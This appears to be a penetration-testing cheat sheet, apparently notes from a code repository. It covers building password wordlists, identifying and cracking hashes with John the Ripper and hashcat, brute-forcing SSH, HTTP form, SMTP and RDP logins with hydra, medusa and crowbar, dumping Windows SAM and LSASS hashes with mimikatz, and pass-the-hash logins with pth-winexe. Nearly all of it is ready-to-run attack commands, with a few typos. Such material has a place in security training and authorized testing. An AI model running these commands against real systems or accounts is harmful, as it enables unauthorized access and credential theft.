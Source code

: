 # Wordlists
[https://oxasploits.com/posts/wordlists-reprise/](https://oxasploits.com/posts/wordlists-reprise/)

## Wordlist generator
- Cewl
```bash
# The wordlist is generated with words with a minimum of six chartacters
cewl www.test.com -m 6 -w test-cewl.txt
```

- Crunch

| Placeholder | Character Transition |
|-------------|----------------------|
| @ | Lower case alpha characters|
| , | Upper case alpha characters|
| % | Numeric characters |
| ^ | Special characters including space|

```bash
# Words with length of eight characters and following the pattern
crunch 8 8 -t ,@@^^%%%
```
```bash
# Passwords between four and six characters, containing only the characters 0-9 and A-F
 crunch 4 6 0123456789ABCDEF -o crunch.txt
 ```
 ```bash
 # Wordlist with pre-defined character-sets like the defined in /usr/share/crunch/charset.lst, and choose a set (this case mixalpha)
 crunch 4 6 -f /usr/share/crunch/charset.lst S mixalpha -o crunch.txt
```

### John The Ripper
- Adding new rules
```bash
xonorkl@xonork:~$ sudo nano /etc/john/john.conf
...
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# Add two numbers to the end of each password
$[0-9]$[0-9]
```
[Rules documentation](https://www.openwall.com/john/doc/RULES.shtml)

- Apply rules to a wordlist
```bash
john --wordlist=test-cewl.txt --rules --stdout > mutated.txt
```

# Password Cracking

## Hash Identification
```bash
hash-identifier [hash]
```
```bash
hashid [hash]
```

```sql
john hashes.txt
```

```sql
hashcat -m 500 -a 0 -o output.txt –remove hashes.txt /usr/share/wordlists/rockyou.txt
```

-   Brute force crack for NTLM hashes with an uppercase, lowercase, lowercase, and 4 digit mask
	```sql
	hashcat -m 1000 dump.txt -o output.txt --remove -a 3 ?u?l?l?d?d?d?d
	```
	
-   List of hash types and examples for hashcat [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
-   [https://hashkiller.co.uk](https://hashkiller.co.uk/) has a good repo of already cracked MD5 and NTLM hashes

## Hash Cracking
### John
```bash
# Hash format
kali@kali:~$ cat hash.txt
test:0c509cca8bcd12a26acf0d1e508cb028
```
```bash
# Without wordlist
sudo john hash.txt --format=NT
```
```bash
# With wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```
```bash
# Wordlist + rules
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```
- To crack **Linux-based hashes** we need to use the **unshadow** utility to combine the **password** and the **shadow**
	```
	kali@kali:~$ unshadow passwd-file.txt shadow-file.txt
	victim:$6$fOS.xfbT$5c5vh3Zrk.88SbCWP1nrjgccgYvCC/x7SEcjSujtrvQfkO4pSWHaGxZojNy.vAqMGrBBNOb0P3pW1ybxm2OIT/:1003:1003:,,,:/home/victim:/bin/bash
	
	kali@kali:~$ unshadow passwd-file.txt shadow-file.txt > unshadowed.txtkali@kali:~$ unshadow passwd-file.txt shadow-file.txt  		       
	victim:$6$fOS.xfbT$5c5vh3Zrk.88SbCWP1nrjgccgYvCC/x7SEcjSujtrvQfkO4pSWHaGxZojNy.vAqMGrBBNOb0P3pW1ybxm2OIT/:1003:1003:,,,:/home/victim:/bin/bash
	
	kali@kali:~$ unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
	
	kali@kali:~$ john --rules --wordlist=/usr/share/wordlists/rockyou.txt S unshadowed.txt
	```
### Hashcat


# Bruteforcing
### Hydra

```bash
# SSH login bruteforce
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

```bash
# HTTP POST Attack
hydra 10.0.0.1 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

```sql
hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt IPADDR PROTOCOL
```

-   Hydra SMTP Brute force
	```sql
	hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp –V
	```
### Medusa
*speedy, massively parallel, modular, login, brute forcer*
```bash
# htaccess-protected admin panel
medusa -h 10.10.0.12 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```
```bash
# Dump all medusa modules
medusa -d
```

### Crowbar
*network authentication cracking tool primarily designed to
leverage SSH keys rather than passwords*
```bash
crowbar -b rdp -s 10.10.0.12/32 -u admin -C ~/passwds.txt -n 1
```

### spray


# Hashes
## Windows Hashes
- The windows hashes are stored in the Security Accounts Manager (SAM)
- Windows NT-based OSs store two different password hashes:
	- LAN Manager (LM), which is based in DES
	- NT LAN Manager (NTLM), which uses MD4
-SAM database cannot be copied while the operating system is running because the Windows kernel keeps an exclusive ffile system lock on the file. However, **mimikatz** can be used to mount in-memory attacks designed to dump the SAM hashes.
- **Mimikatz** also facilitate password hash extraction from the Local Security Authority Subsystem (LSASS) process memory where they are catched.
- We must launch **mimikatz** from an administrative command prompt. We have to execute three commands:
	- **privilege::debug**
	- **token:elevate**
	- **lsadump:sam**
### Pass-the-Hash (PtH)
- It allows an attacker to authenticate to a remote targets using a valid combination of username and NTLM/LM hash.
- *pth-winexe* from the Passing-The-Hash toolkit
```bash
pth-winexe -U test%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.10.0.12 cmd
```





